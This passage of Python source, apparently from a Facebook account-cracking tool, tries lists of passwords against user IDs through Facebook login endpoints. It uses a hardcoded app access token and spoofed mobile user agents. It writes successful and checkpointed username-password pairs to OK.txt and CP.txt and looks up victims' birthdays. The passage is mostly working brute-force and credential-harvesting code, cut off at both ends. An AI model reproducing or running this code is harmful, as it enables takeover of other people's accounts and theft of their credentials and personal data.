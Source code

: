    p = Prof_Ayan("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+user+"&locale=en_US&password="+pw+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6").json()
   if "access_token" in p:
    AYAN_ARAIN('\r\033[1;92m[Successful-AS] %s | %s%s      '%(user,pw,tahun(user)))
    wrt = '%s - %s %s'%(user,pw,tahun(user))
    ok.append(wrt)
    open('OK.txt','a').write('%s\n' % wrt)
    break
    continue
   elif "www.facebook.com" in p["error_msg"]:
    try:
     token = AYAN('login.txt').read()
     cp_ttl = Prof_Ayan('https://graph.facebook.com/%s?access_token=%s'%(user,token)).json()['birthday']
     month, day, year = cp_ttl.split('/')
     month = bulan_ttl[month]
     AYAN_ARAIN('\r\033[1;91m[Checkpoint-AS] %s | %s • %s %s %s%s      '%(user,pw,day,month,year,tahun(user)))
     wrt = '%s - %s - %s %s %s%s'% (user,pw,day,month,year,tahun(user))
     cp.append(wrt)
     open('CP.txt','a').write('%s\n' % wrt)
     break
    except (KeyError, IOError):
     month = ''
     day   = ''
     year  = ''
    except:
     pass
    AYAN_ARAIN('\r\033[1;91m[Checkpoint-AS] %s | %s%s      '%(user,pw,tahun(user)))
    wrt = '%s - %s%s' % (user,pw,tahun(user))
    cp.append(wrt)
    open('CP.txt','a').write('%s\n' % wrt)
    break
    continue
  loop += 1
 def __mbasic__(self, user, _sempak_):
  global ok,cp,loop
  sys.stdout.write('\r\033[1;97m [AS007] %s/%s  \033[1;92mOK-:%s / \033[1;91mCP-:%s '%(loop,len(self.id),len(ok),len(cp))),
  sys.stdout.flush()
  for pw in _sempak_:
   pw = pw.lower()
   try: os.mkdir('')
   except: pass
   try:
    ua_xiaomi = AYAN('agent.txt', 'r').read()
   except (KeyError, IOError):
    ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
   ses = requests.Session()
   headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
   p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
   dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}